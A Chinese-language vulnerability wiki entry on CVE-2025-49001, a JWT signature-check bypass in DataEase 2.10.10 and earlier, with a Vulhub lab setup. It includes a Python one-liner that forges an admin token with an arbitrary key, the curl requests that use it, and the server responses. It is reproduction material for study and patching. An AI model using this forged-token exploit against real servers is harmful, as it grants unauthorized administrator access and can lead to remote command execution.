



# DataEase JWT 认证绕过漏洞 CVE-2025-49001

## 漏洞描述

DataEase 是一款广泛使用的开源数据可视化分析平台，常用于搭建 BI 仪表盘。

在 DataEase 2.10.10 及以下版本中，`CommunityTokenFilter` 的 JWT 校验逻辑存在缺陷：当 HMAC 签名校验抛出 `SignatureVerificationException` 时，过滤器仅向响应写入 401 并记录日志，却没有中断流程，随后仍然调用 `filterChain.doFilter(...)` 放行请求。由于上一级的 `TokenFilter` 通过 `AuthUtils.getUser()` 仅对 JWT 做 `decode` 而不校验签名，下游控制器因此以攻击者伪造的 `uid` 和 `oid` 执行业务逻辑，等同于以管理员（`uid=1`）身份操作。该漏洞可与 CVE-2025-32966 串联，通过数据源校验接口实现未授权远程命令执行。

参考链接：

- https://github.com/dataease/dataease/security/advisories/GHSA-xx2m-gmwg-mf3r
- https://nvd.nist.gov/vuln/detail/CVE-2025-49001
- https://github.com/dataease/dataease/security/advisories/GHSA-h7hj-4j78-cvc7

## 漏洞影响

```
DataEase 2.10.10 及以下版本
```

## 环境搭建

Vulhub 执行如下命令启动一个存在漏洞的 DataEase 2.10.7：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8100` 即可看到 DataEase 登录页。




## 漏洞复现

首先确认 `user/info` 接口在正常未授权情形下的表现。不带任何 Token 时，过滤器会在最早阶段拒绝请求，返回明确指出缺失 Token 的 `401`：

```
curl -sS -D - http://your-ip:8100/de2api/user/info
-----
HTTP/1.1 401 
X-DE-EXECUTE-VERSION: 2.10.7
DE-GATEWAY-FLAG: [token%20is%20empty%20for%20uri%20%7B%2Fde2api%2Fuser%2Finfo%7D]
Content-Length: 75
Date: Fri, 08 May 2026 03:04:51 GMT

{"code":401,"msg":"token is empty for uri {/de2api/user/info}","data":null}%
```




接下来使用任意 HMAC 密钥伪造一个管理员 JWT——由于 `CommunityTokenFilter` 在签名校验异常后仍会放行请求，攻击者根本无需知道服务端真实密钥：

```
python3 -c "import jwt,time; print(jwt.encode({'uid':1,'oid':1,'exp':int(time.time())+3600}, 'any-secret-will-do', algorithm='HS256'))"
```

携带伪造的 Token 再次请求，同时观察响应状态行和响应头：

```
curl -sS -D - -H "X-DE-TOKEN: <forged-jwt>" http://your-ip:8100/de2api/user/info
-----
HTTP/1.1 400 
X-DE-EXECUTE-VERSION: 2.10.7
DE-GATEWAY-FLAG: The%20Token%27s%20Signature%20resulted%20invalid%20when%20verified%20using%20the%20Algorithm%3A%20HmacSHA256
Cache-Control: no-cache
Cache: no-cache
Pragma: no-cache
Expires: 0
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Type: application/json;charset=ISO-8859-1
Content-Length: 146
Date: Fri, 08 May 2026 03:05:42 GMT
Connection: close

{"code":400,"msg":"Request processing failed: java.lang.IllegalStateException: getWriter() has already been called for this response","data":null}
```




可见，响应包返回的状态码是 `400` 而非前面的 `401`，说明执行器已经绕过了签名校验的逻辑。

> 绕过了签名校验但仍然返回 `400` 响应而非 `200` 响应的根本原因是什么？
>
> 在 HTTP 协议层面，由于 `CommunityTokenFilter` 过滤器已经先行抢占了响应 Writer，后续控制器即便以管理员身份执行成功也无法再输出干净的数据包——这也是利用此路径只能看到 `400` 而非 `200` 的根本原因，但没有返回 `401` 响应足以说明攻击者伪造的 Token 是有效的。

## 漏洞修复

- 更新至最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
